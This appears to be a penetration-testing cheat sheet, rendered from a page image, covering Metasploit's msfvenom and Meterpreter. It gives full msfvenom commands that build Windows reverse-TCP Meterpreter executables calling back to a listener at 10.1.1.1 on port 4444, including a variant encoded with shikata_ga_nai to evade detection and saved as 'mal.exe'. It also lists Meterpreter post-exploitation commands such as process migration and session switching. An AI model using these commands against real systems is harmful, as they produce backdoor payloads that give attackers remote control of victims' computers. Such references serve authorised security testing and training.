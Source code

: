 ### Basic Examples

```
msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
```

### Format Options

```
--help-formats #List available output formats
exe #Executable 
pl #Perl
rb #Ruby
raw #Raw Shellcode
c #C Code
```

### Encoders&#x20;

* See all encoders&#x20;

```
msfvenom -l encoders
```

* Basic Example:

```
msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
```

## Meterpreter

* Core commands will be helpful to navigate and interact with the target system. Below are some of the most commonly used.
* Remember to check all available commands running the help command once a Meterpreter session has started.

### Post Exploitation Modules Reference

* https://www.offensive-security.com/metasploit-unleashed/post-module-reference/

### Core commands

* `background`: Backgrounds the current session
* `exit`: Terminate the Meterpreter session
* `guid`: Get the session GUID (Globally Unique Identifier)
* `help`: Displays the help menu
* `info`: Displays information about a Post module
* `irb`: Opens an interactive Ruby shell on the current session
* `load`: Loads one or more Meterpreter extensions
* `migrate`: Allows you to migrate Meterpreter to another process
* `run`: Executes a Meterpreter script or Post module
* `sessions`: Quickly switch to another session
